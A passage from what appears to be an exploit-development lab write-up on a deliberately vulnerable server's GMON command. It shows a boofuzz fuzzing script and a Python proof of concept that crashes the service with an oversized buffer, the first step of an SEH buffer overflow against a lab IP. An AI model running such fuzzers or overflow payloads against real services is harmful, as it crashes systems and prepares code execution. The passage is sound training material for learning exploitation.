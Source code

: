 ```python
        target=Target(
            connection=SocketConnection(target_ip, target_port, proto='tcp')
        ),
    )

    s_initialize(name="Request")
    with s_block("Host-Line"):
        s_static("GMON", name='command name')
        s_delim(" ")
        s_string("FUZZ",  name='gmon variable content')
        s_delim("\r\n")

    # the callback function gets executed after each test
    session.connect(s_get("Request"), callback=is_alive) 
    session.fuzz()

if __name__ == "__main__":
    main()
```

Once again the pattern that causes a crash appears to be: `GMON /././.` with the `/.` being repeated many times.

## Proof of Concept

Therefore the PoC is pretty much identical to the TRUN one as well:

```python
#!/usr/bin/env python3
# GMON - SEH based buffer overflow
# Step 1 - cause a crash / proof of concept
import socket

size = 4096
target_ip = "10.0.2.74"
target_port = 9999

buf = b""
buf += b"GMON /."
buf += b"A" * size
buf += b"\n"

s = socket.socket (socket.AF_INET, socket.SOCK_STREAM)
s.connect((target_ip, target_port))

# receive banner
banner = s.recv(1024)
print(banner)

# send evil buffer
print(f"Sending evil buffer with {len(buf)} bytes and payload length {size}...")
s.send(buf)

# should get stuck here
# receive response
a = s.recv(1024)
print(a)

s.close()
print("Done!")
```
